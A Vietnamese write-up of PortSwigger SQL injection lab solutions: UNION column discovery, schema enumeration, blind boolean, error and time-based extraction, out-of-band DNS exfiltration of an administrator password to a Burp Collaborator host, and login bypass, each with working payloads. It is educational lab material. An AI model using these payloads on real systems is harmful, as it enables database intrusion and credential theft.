







# SQL Injection

## Lab: SQL injection UNION attack, determining the number of columns returned by the query

### Link: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Lab yêu cầu xác định số cột trong truy vấn bằng cách thêm một dòng `NULL` vào trong giá trị trả về

Theo như đề miêu tả, thì sql injection nằm trong phần category filter, vì vậy ta chọn đại một filter và bắt gói tin với Burp Suite

Ta nhận thấy biến `category=Corporate+gifts` chứa giá trị chúng ta vừa chọn, vì vậy ta thử thay đổi câu truy vấn để thêm một hàng `NULL` như sau

`?category=Corporate+gifts'+UNION+select+NULL--`

Câu lệnh `select null` sẽ trả về một hàng có duy nhất một cột `NULL`, để phép union 2 câu lệnh select thành công thì số cột trả về của 2 câu truy vấn phải như nhau, vì thế ta có thể tăng số phần tử `NULL` lên từ từ cho đến khi câu truy vấn trở thành hợp lệ, từ đó ta xác định được số cột trả về.

Khi mình thêm `NULL` đến cái thứ 3 thì kết quả 200 OK trả về, tức câu lệnh union hợp lệ, vậy xác định được số cột trả về là 3

`?category='+UNION+select+NULL,NULL,NUL--`

Server thông báo solve thành công :3

## Lab: SQL injection UNION attack, finding a column containing text

### Link: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Tương tự lab trước, lần này đề thêm một yêu cầu là xác định cột nào có kiểu dữ liệu là chuỗi. Thì đây cũng là một tính chất của lệnh union, dữ liệu trả về cần phải cùng số cột và ở mỗi cột cùng phải cùng kiểu dữ liệu với nhau. Ví dụ `select 1, ‘2’ union select 2, ‘a’` sẽ là câu lệnh hợp lệ, còn `select 1, 2 union select 2, ‘a’` là không hợp lệ (‘a’ và 2 không cùng kiểu dữ liệu, riêng `NULL` thì luôn cùng dữ liệu). Như vậy nếu như ta union với `select ‘a’, NULL, NULL` thành công, thì tức là cột đầu tiên của câu truy vấn trước đó trả về kiểu dữ liệu chuỗi.

Để giải lab này, ta làm tương tự các bước ở lab trước, đầu tiên sẽ là xác định số cột trả về, sau đó ta sẽ thay từng cột bằng giá trị random đề cho, nếu như câu lệnh thành công thì vị trí `NULL` ta thay chính là cột có kiểu chuỗi.

Đề yêu cầu sử dụng chuỗi `‘0vlynB’`

Thay giá trị `NULL` thứ 2 bằng chuỗi `'0vlynB'`, ta nhận được respone 200OK, tức câu lệnh truy vấn đã thành công, Từ đó xác định được cột thứ 2 sẽ có kiểu dữ liệu chuỗi

`?category=Corporate+gifts'+UNION+SELECT+NULL,'0vlynB',NULL--`

Solve thành công :3

## Lab: SQL injection UNION attack, retrieving data from other tables

### Link: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Đề yêu cầu chúng ta tìm `username` và `password` trong bảng `users`. Lỗi SQL injection vẫn nằm ở product category filter giống các lab trước. Để giải lab này, ta tiến hành bắt gói tin với Burp Suite, xác định số cột và kiểu dữ liệu của từng cột, sau đó truy vấn và đặt `username` và `password` vào cột có giá trị kiểu chuỗi.

Sau khi thử truy vấn thì ta xác định rằng giá trị trả về gồm 2 cột và cả 2 cột đều mang giá trị chuỗi. Tiến hành truy vấn username password bằng câu lệnh:

`?category=Lifestyle'+UNION+SELECT+username,password+FROM+user--`

Kết quả trả về và tìm password tương ứng với Adminstrator

Password là `m0zco0fwfqeslkokmct5`

Login thành công

Solved :3

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

### Link: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Đề lần này hoàn toàn y hệt lab trước, tuy nhiên dựa vào tên lab mình có thể đoán được là lần này kết quả chỉ có 1 cột hoặc chỉ có 1 cột có giá trị chuỗi.

Sau khi test thì mình biết được chỉ có cột thứ 2 mới có thể chứa truy vấn, nhưng ta cần cả username và password tương ứng, vì thế có 2 cách để tìm được password trong bài này:

Cách 1: Vì chúng ta đã biết username nên ta chỉ cần thêm điều kiện username = ‘administrator’

`?category=Accessories'+UNION+SELECT+NULL,password+FROM+users+WHERE+username='administrator--`

Ta tìm được password thành công, tuy nhiên đây không phải là cách mà bài lab mong muốn chúng ta làm, đặt trong trường hợp chúng ta không biết username, ta sẽ dùng cách thứ 2

Cách 2: Ta dùng phép `||` để nối chuỗi username và password lại và trả về trong cùng một cột

`?category=Accessories'+UNION+SELECT+NULL,username||password+FROM+users--`

Ta có thể thấy chuỗi username và password đã được nối lại với nhau và trả về trong respone, ngoài ra còn có một vài cặp username và password khác

Login thử và solve thành công :3

## Lab: SQL injection attack, querying the database type and version on Oracle

### Link: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Đề yêu cầu truy vấn version của database, vì đề đã cho database là Oracle, để truy vấn version, ta dùng câu lệnh `select banner from v$version`

Truy vấn ở Oracle sẽ có chút khác biệt vì nó yêu cầu mỗi câu select đều phải có “FROM”, vì vậy nếu ta chỉ select NULL để tìm số cột như các bài lab trước sẽ gây ra lỗi, chúng ta sẽ truy vấn đến một bảng luôn có trong Oracle là `dual`.

Sau khi test thì mình thấy câu lệnh trả về 2 cột và cột đầu tiên có thể chứa giá trị chuỗi, vì vậy ta tiến hành truy vấn version oracle

`r?category=Pets'+UNION+SELECT+BANNER,NULL+FROM+V$VERSION--`

Ta có thể thấy thông tin version được trả về, như vậy là thành công

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

### Link: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Đề lần này y hệt lab trước, chỉ khác database là MySQL hoặc Microsoft chứ không phải Oracle

Để truy vấn version trong mysql, microsoft, ta dùng `select @@version`

`?category=Pets'+UNION+SELECT+@@VERSION,NULL--+`

(Lưu ý thêm dấu + phía cuối vì MySQL cần dấu khoảng trắng phía sau -- để trở thành comment hợp lệ, hoặc có thể thay bằng #)

Ta có thể thấy dòng 8.0.26 đã được trả về, như vậy là solve thành công

## Lab: SQL injection attack, listing the database contents on non-Oracle databases

### Link: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Lần này đề không cho tên table như trước mà đề gợi ý có table chứa username và password, yêu cầu tìm username và password

Ta có thể tìm tên tất cả các table trên non-Oracle databases bằng câu lệnh `select table_name from information_schema.tables`

Ta dùng payload sau

`?category=Pets'+UNION+SELECT+table_name,NULL+FROM+INFORMATION_SCHEMA.TABLES--`

Có rất nhiều table trả về trong respone, ta tiến hành kiểm tra từng table một 

Ta có thể xem tên các cột trong một table bất kì với câu lệnh `select column_name from information_schema.columns where table_name='table_name_here'`

Kiểm tra từng table một, ta thấy một table có tên `users_jowdcd`

Try vấn để xem tên cột của table `users_jowdcd`

`?category=Pets'+UNION+SELECT+COLUMN_NAME,NULL+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users_jowdcd'--`

 
Ta thấy 2 cột có tên là `username_vukpxc` và `password_cmyeop`

Truy vấn xem giá trị 2 cột

`?category=Pets'+UNION+SELECT+username_vukpxc,password_cmyeop+FROM+users_jowdc--`

Ta thấy username và password administrator được trả về trong respone

Tiến hành login và thành công

## Lab: SQL injection attack, listing the database contents on Oracle

### Link: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Đề giống y hệt lab trước, thay database là Oracle. Chúng ta sẽ giải y hệt lab trước, thay `information_schema.tables` thành `all_tables` và `information_schema.columns` thành `all_tab_columns`

List danh sách bảng

`?category=Gifts'+UNION+SELECT+TABLE_NAME,NULL+FROM+ALL_TABLES--`

Truy vấn bảng `USERS_OLQZGO`

`?category=Gifts'+UNION+SELECT+COLUMN_NAME,NULL+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_OLQZGO'--`

Ta thấy 2 tên cột là `PASSWORD_BGKVTK` và `USERNAME_QEUXYI`

Truy vấn đến giá trị của 2 cột

`?category=Gifts'+UNION+SELECT+USERNAME_QEUXYI,PASSWORD_BGKVTK+FROM+USERS_OLQZGO--`

Tìm được username và password, tiến hành đăng nhập thử

Và solve lab thành công

## Lab: Blind SQL injection with conditional responses

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Đề yêu cầu chúng ta tìm password tương ứng với username = `administrators` trong table `users`. Lần này lỗi SQL injection sẽ nằm ở cookie, và kết quả sẽ không còn trả về trong respone để ta có thể dùng lệnh union, tuy nhiên server sẽ thông báo `“Welcome back”` nếu câu truy vấn trả về ít nhất 1 dòng.

Lỗi SQL injection nằm trong phần trackingID

Ta sẽ lợi dụng việc thông báo “Welcome back” để tiến hành bruteforce password

Trước tiên ta sẽ tìm độ dài của chuỗi password, ta dùng payload

`TrackingId=cxlpED0ElHRcvteg'+AND+(SELECT+'a'+FROM+USERS+WHERE+USERNAME='administrator'+AND+LENGTH(PASSWORD)>1)='a`

Câu lệnh trên sẽ đúng nếu độ dài chuỗi password lớn hơn 1, ta sẽ dùng intruder để tăng dần độ dài chuỗi và kiểm tra chuỗi “Welcome back” trong respone để xác định độ dài.

Đặt vị trí bruteforce

Cài đặt giá trị từ 1->50

Grep trong respone giá trị welcome back

Kết quả

Ta nhận thấy kể từ giá trị 20 trở đi thì chuỗi “Welcome back” không còn xuất hiện trong respone nữa, từ đó độ dài chuỗi password là 20

Sau khi có độ dài, ta tiến hành bruteforce từng kí tự của password, sử dụng hàm `substring(password,index,1)` với index là vị trí của kí tự cần đoán

`TrackingId=cxlpED0ElHRcvteg'+AND+(SELECT+SUBSTRING(PASSWORD,1,1)+FROM+USERS+WHERE+USERNAME='administrator')='§a§`

Câu truy vấn trên sẽ đúng khi kí tự ta bruteforce trùng với kí tự đầu tiên của password

Đặt vị trí bruteforce và cài đặt danh sách payload (mình đặt từ 0->9, a->Z, A->Z) và tiếp tục grep chuỗi “Welcome back” ở respone

Ta nhận tháy kí tự ‘b’ trong respone trả về match, vậy kí tự đầu tiên của password là ‘b’. Tiếp tục tăng index trong lệnh substring lên và lặp lại 20 lần cho đến hết độ dài password, ta tìm được password: `bazkx5ziivf8t9hvfjd7`

Login thử

Và thành công :333
 

## Lab: Blind SQL injection with conditional errors

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

Đề vẫn yêu cầu lấy password của username administrator, nhưng lần này server không có bất kì thông báo nào cả. Tuy nhiên nếu như câu truy vấn SQL gây ra lỗi, thì server sẽ trả về một custom error message.

Ta sẽ dựa vào việc server trả về error message để kiểm tra các điều kiện của chúng ta. Đầu tiên ta thử với payload 

`TrackingId=nITTHCkqqgcsS9nT'+union+select+NULL--`

Kết quả trả về là 500 error, ta thử thêm `from dual` vào phía sau để kiểm tra trường hợp database Oracle

`TrackingId=nITTHCkqqgcsS9nT'+union+select+NULL+FROM+dual--`

Kết quả trả về 200OK, vậy là câu lệnh query đúng cú pháp, tức là database sử dụng là Oracle

Ta thử thay NULL bằng hàm `to_char(1/0)`

`TrackingId=nITTHCkqqgcsS9nT'+union+select+to_char(1/0)+FROM+dual--`

Lỗi 500 error xảy ra vì phép tính 1/0 gây ra lỗi. Ta có thể lợi dụng điều này để kiểm tra các điều kiện sử dụng trong where, ví dụ ta thử

`TrackingId=nITTHCkqqgcsS9nT'+union+select+to_char(1/0)+FROM+users+where+username='administrator'--`

Nếu như trong bảng user có username = ‘administrator’ thì câu lệnh to_char(1/0) sẽ chạy và gây ra lỗi 500 error

Lỗi 500 error được trả về, thử thay `to_char(1/0)` bằng NULL để đảm bảo câu lệnh `to_char(1/0)` chính là tác nhân gây ra lỗi 500 error chứ không phải lí do khác

200OK, perfect =)) Vậy chúng ta có thể lợi dụng điều này để bruteforce password, ta làm tương tự các bước của task trước, leak độ dài password và bruteforce từng kí tự một của password. Ta sẽ đặt các điều kiện này vào phần WHERE và kiểm tra, nếu mã 500 error trả về thì điều kiện ta đúng.

`TrackingId=nITTHCkqqgcsS9nT'+union+select+to_char(1/0)+FROM+users+where+username='administrator'+and+substr(password,1,1)='§s§'--`

Sử dụng intruder và đặt vị trí bruteforce

Tiến hành bruteforce và kiểm tra kết quả trả về. Hàm `substring` trong MySQL tương ứng với hàm substr trong Oracle

Kí tự đầu tiên của password là u (mã 500 error)

Tiếp tục lặp lại cho đến khi không còn mã 500 error nào trong respone, ta tìm được password: `ubd50jpnd2ohevwju9dp`

Login thử

Server báo solve thành công :3

## Lab: Blind SQL injection with time delays

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Lỗi vẫn ở vị trí cũ (cookie). Đề yêu cầu gây ra độ trễ 10s bằng SQL injection.

Các lệnh dùng để gây delay trên SQL Injection

Ta tiến hành thử từng lệnh 1

Đến câu lệnh `pg_sleep(10)` thì thành công :v

`TrackingId=lNUhAPxi8A3y33t6'+||+(SELECT+pg_sleep(10))--+`

Solve thành công :333

## Lab: Blind SQL injection with time delays and information retrieval

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

Lần này vẫn giống với lab Blind SQL injection with conditional errors, chỉ khác là chúng ta không dựa vào lỗi 500 error để kiểm tra các điều kiện nữa, mà ta sẽ dùng time delay. Ta sẽ tiến hành stack câu lệnh gây ra delay 10s, và nếu điều kiện của t đúng, thì câu lệnh sẽ tốn 10s để respone.

Mình thử với lệnh sau:

`TrackingId=U0lcOGjbM2VWtd4H'+%3b+(SELECT+pg_sleep(10))+--`

Ta thấy server tốn hơn 10s để trả về respone, như vậy ta có thể dùng câu lệnh này để kiểm tra các điều kiện. Các bước làm tương tự với lab Blind SQL injection with conditional errors, thay điều kiện `to_char(1/0)` gây ra lỗi 500 error thành `pg_sleep(10)` để tạo ra khoảng delay 10s nhằm kiểm tra điều kiện

`TrackingId=U0lcOGjbM2VWtd4H'+%3b+(SELECT+pg_sleep(10)+FROM+users+where+username='administrator'+and+substring(password,1,1)='§a§')--+`

Đặt vị trí bruteforce

Đặt tối đa một request mỗi lần chạy (để theo dõi thời gian trả về)

Ta có thể thấy với vị trí đầu tiên, kí tự ‘h’ trả về rất lâu sau chữ ‘g’ (hơn 10s)

Vậy kí tự đầu tiên của password là ‘h’, lặp lại liên tục đến hết độ dài chuỗi, ta thu được password: `htuqw9fk2h3vy54n21l8`

Login thử

Thành công :v

## Lab: Blind SQL injection with out-of-band interaction

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

Lần này đề yêu cầu ta gửi dns lookup đến với `burpcollaborator.net`

Cheatsheet dns lookup

Thử từng cái 1

`TrackingId=oV38m8npQnooBz3W'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//burpcollaborator.net">+%25remote%3b]>'),'/l')+FROM+dual--`

Với dns lookup của Oracle thành công

## Lab: Blind SQL injection with out-of-band data exfiltration

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

Đề yêu cầu ta gửi DNS lookup để tìm ra password của administrator. Giống với lab trước, lần này ta sẽ kèm theo password bằng cách request tới 
`sub-domain.burpcollaborator.net` để tìm ip cho `password.sub-domain.burpcollaborator.net`

Khi chúng ta gửi dns loopkup đến tên miền `password.sub-domain.burpcollaborator.net` dns sẽ lần lượt truy vấn đến `burpcollaborator.net` để tìm `sub-domain.burpcollaborator.net`, và truy vấn tới `sub-domain.burpcollaborator.net` để tìm `password.sub-domain.burpcollaborator.net`

`sub-domain.burpcollaborator.net` là tên miền ta có thể kiểm soát và xem các truy vấn dns, do đó ta có thể biết được giá trị password của administrator

Setup burp collaborator client (đây là một server ảo được burpsuite tạo ra để ta có thể thực hành và xem các truy vấn dns) 

`0jkrd6kddep17fwkoddpstbk9bf23r.burpcollaborator.net`

`TrackingId=rf21pTsGRDvoxdRd'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username='administrator')||'.llacfrmyfzrm90y5qyfaued5bwhq5f.burpcollaborator.net">+%25remote%3b]>'),'/l')+FROM+dual--; session=Spx49DBLLvHZvWpPHEoGYwItyHYDWyFM`

Câu lệnh trên sẽ nối password của administrator vào đầu truy vấn, truy vấn của ta sẽ là `http://password.llacfrmyfzrm90y5qyfaued5bwhq5f.burpcollaborator.net`

Kiểm tra truy vấn dns trên server 

Ta có thể thấy password là: `lgib17ppkjt60r8sdguj` (được gán vào đầu truy vấn)

Đăng nhập thử 

Thành công :3

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Link: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Đề yêu cầu ta dùng SQL injection để hiển thị toàn bộ sản phẩm cả released(released = 1) và unreleased(released = 0)

‘Gift’ là giá trị ta có thể control

Như vậy ta chỉ cần thay Gifts thành `' or 1=1-- `

Lúc này câu lệnh truy vấn trở thành `SELECT * FROM products WHERE category = '' or 1=1-- ' AND released = 1`

`?category=Pets'+or+1=1--+`

Solve thành công, 1 challenge cực kì nhẹ nhàng

## Lab: SQL injection vulnerability allowing login bypass

### Link: [https://portswigger.net/web-security/sql-injection/lab-login-bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Đề yêu cầu chúng ta bypass login, một challenge cơ bản của SQL injection

Chúng ta nhập `administrator'-- `

Đăng nhập thành công

